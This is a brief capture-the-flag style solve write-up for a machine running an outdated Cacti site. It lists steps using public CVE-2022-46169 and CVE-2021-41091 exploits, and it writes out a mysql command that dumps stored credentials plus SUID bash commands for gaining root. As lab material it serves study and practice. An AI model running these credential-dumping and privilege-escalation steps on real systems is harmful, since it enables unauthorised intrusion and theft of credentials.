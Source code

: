 # Solve

1. outdated website, use public `CVE-2022-46169` to gain shell
2. most likely the website shell is ran inside a docker container, inspect the `entrypoint.sh`
3. using the hardcoded command, we can query the `user_auth` tables in the database to get credentials using the following command:    
`mysql --host=db --user=root --password=root cacti -e "select * from user_auth"`
4. crack the hash using `john`
5. connect and check the docker version. It is susceptible to `CVE-2021-41091`
6. back at the inside the docker abuse `/bin/bash` SUID to privsec to root      
`$ install -m =xs $(which bash) .`      
`$ /bin/bash -p`
7. recreate the `CVE-2021-41091` PoC  
    **inside the docker container:**    
    - `$ install -m =xs $(which bash) .`
    - `$ /bin/bash -p`
    - `$ chmod u+s /bin/bash`
    - `$ /bin/bash`  
    **then at the host machine:**    
    - copy the PoC script
    - run and follow the script instruction 